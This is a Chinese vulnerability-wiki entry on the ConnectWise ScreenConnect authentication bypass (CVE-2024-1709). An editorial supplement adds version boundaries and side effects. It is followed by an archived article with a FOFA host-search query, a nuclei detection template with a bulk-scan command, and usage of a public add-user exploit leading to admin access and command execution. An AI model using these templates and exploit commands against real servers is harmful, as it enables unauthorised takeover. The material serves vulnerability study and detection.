






# CVE-2024-1709

## CVE-2024-1709 技术补充

2026-10-03静态核对；未执行代码或请求目标。保留现有原文、示例和图片，本补充独立记录。

### 1709认证绕过与1708写入边界

本次具体公开验证资料仅覆盖 CVE-2024-1709：[Huntress 原始研究](https://www.huntress.com/blog/a-catastrophe-for-control-understanding-the-screenconnect-authentication-bypass)给出了重新进入安装向导、点击 Next 并创建用户的手工验证流程；这一步会覆盖本地用户数据库。CVE-2024-1708 在本节仅作独立漏洞及影响区别说明，未由本轮已读材料建立完整 ZIP 路径穿越触发，不能计为已具备该漏洞的具体验证资料；管理员正常安装扩展的代码执行也不能替代其证明。


[Huntress原始研究](https://www.huntress.com/blog/a-catastrophe-for-control-understanding-the-screenconnect-authentication-bypass)解释：旧SetupModule只比较Request.Path与固定SetupWizard.aspx字符串，而.NET可把尾部路径交给相同处理器，导致向导可重入。修复转到HTTP处理器映射后检查ISetupHandler。原报告一处“28.9.8”为与上下文23.9.8冲突的排字，不能照抄为新修复版本。

更重要的副作用：向导用户创建步骤会覆盖内部用户数据库，删去原有本地用户，而不仅“添加账户”。现有GET模板只探测向导页面，不会自动完成这一变化；后续创建账户工具则须按覆盖风险阅读。

1708是扩展ZIP解压路径限制不足，可越过扩展自身子目录写入App_Extensions根目录；需要管理权限，可由1709提供。管理员本来就可安装执行.NET代码的扩展，证明1709后RCE不等于证明1708。两编号不合并成同一实体。

两漏洞均在23.9.8修复，CNA记录23.9.7及更早受影响；云服务和自托管、旧Linux部署升级路径必须区别。原研究提供具体调用语义及补丁差异说明，本轮已读全文技术文字，嵌入Gist/截图像素未额外获取，不从图片重建代码。未执行工具、提交向导或上传扩展。


<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：ConnectWise ScreenConnect Server
- 文献类型：认证绕过复现与模板
- 版本、权限及部署边界：<=23.9.7；示例Linux20.3.31734.7751，自托管安装；需SetupWizard路径远程可达
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. GET SetupWizard检测只证明向导可达，账号创建与后台命令执行是后续有状态操作，应分开记录
2. 生产系统重跑安装向导的原有账户/配置影响未提示，不能称无损检测或普通注册
3. 实验20.3Linux与修复23.9.8支持平台/升级路径需单列，不能给所有OS相同无条件升级建议
4. 利用示例localhost漏8040与前文环境不一致；精确修复应说23.9.8及以上而非含糊以上
5. 有Huntress/watchTowr/厂商公告，较完整；模板verified不替代实测，主产品是服务端而非远控客户端

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://www.huntress.com/blog/a-catastrophe-for-control-understanding-the-screenconnect-authentication-bypass>
- 原文参考链接（未重新核验）：<https://screenconnect.connectwise.com/download/archive>
- 原文参考链接（未重新核验）：<https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc>
- 原文参考链接（未重新核验）：<https://www.connectwise.com/company/trust/security-bulletins/connectwise-screenconnect-23.9.8>
- 原文参考链接（未重新核验）：<https://nvd.nist.gov/vuln/detail/CVE-2024-1709>
- 原文参考链接（未重新核验）：<https://screenconnect.connectwise.com/download>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-02-28 07:02  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
ConnectWise ScreenConnect使用备用路径或通道绕过身份验证  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
ConnectWise ScreenConnect 23.9.7及之前版本  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
ConnectWise ScreenConnect 23.9.7及之前版本存在身份验证绕过漏洞，攻击者可通过替代路径或通道绕过身份验证，未经授权攻击者可以利用此漏洞注册账户，登陆到产品后台，而且可以通过 ScreenConnect的原有功能执行操作系统命令，直接访问机密信息或关键系统。  
  
  
详细漏洞分析请参考  
  
https://www.huntress.com/blog/a-catastrophe-for-control-understanding-the-screenconnect-authentication-bypass  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="-82958153"
```  
  
  
  
  
  
05  
  
—  
  
靶场安装  
  
  
上官网根据自己的操作系统下载对应的安装包  
  
https://screenconnect.connectwise.com/download/archive  
  
  
  
我是在centos上安装，先上传安装包，然后解压  
```
tar -zxvf ScreenConnect_20.3.31734.7751_Release.tar.gz
cd ScreenConnect_20.3.31734.7751_Install

```  
  
执行安装脚本  
```
./install.sh
```  
  
访问页面  
  
http://localhost:8040/Host  
  
  
  
  
  
然后在官网免费申请一个使用license即可  
  
  
  
  
06  
  
—  
  
批量验证POC  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-1709

info:
  name: ConnectWise ScreenConnect 23.9.7 - Authentication Bypass
  author: johnk3r
  severity: critical
  description: |
    ConnectWise ScreenConnect 23.9.7 and prior are affected by an Authentication Bypass Using an Alternate Path or Channel vulnerability, which may allow an attacker direct access to confidential information or critical systems.
  reference:
    - https://www.huntress.com/blog/a-catastrophe-for-control-understanding-the-screenconnect-authentication-bypass
    - https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc
    - https://www.connectwise.com/company/trust/security-bulletins/connectwise-screenconnect-23.9.8
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1709
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10.0
    cve-id: CVE-2024-1709
    cwe-id: CWE-288
  metadata:
    verified: true
    max-request: 1
    vendor: connectwise
    product: screenconnect
    shodan-query: http.favicon.hash:-82958153
  tags: cve,cve2024,screenconnect,connectwise,auth-bypass,kev

variables:
  string: "{{rand_text_alpha(10)}}"

http:
  - method: GET
    path:
      - "{{BaseURL}}/SetupWizard.aspx/{{string}}"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "SetupWizardPage"
          - "ContentPanel SetupWizard"
        condition: and

      - type: status
        status:
          - 200

    extractors:
      - type: kval
        part: header
        kval:
          - Server
# digest: 4a0a004730450220564c9949c406c35520203b46a2a34bba505d1cadfde47e8a38f9a073264e97f0022100ff2a065d66fa48b8502a068445d833e6700efd1e9715d034f1ea16e91696bd06:922c64590222798bb761d5b6d8e72950
```  
  
运行POC  
```
nuclei.exe -l data/CVE-2024-1709.txt -t mypoc/cve/CVE-2024-1709.yaml
```  
  
  
  
  
07  
  
—  
  
漏洞利用  
  
  
github上有python版的代码可以添加用户  
```
https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc
```  
  
使用方法  
```
python watchtowr-vs-ConnectWise_2024-02-21.py --url http://localhost --username hellothere --password admin123!
```  
  
创建好用户后直接登录后台，可以执行系统命令。  
  
  
  
  
  
08  
  
—  
  
修复建议  
  
  
升级到23.9.8以上版本。  
  
https://screenconnect.connectwise.com/download  
  
  
  
09  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
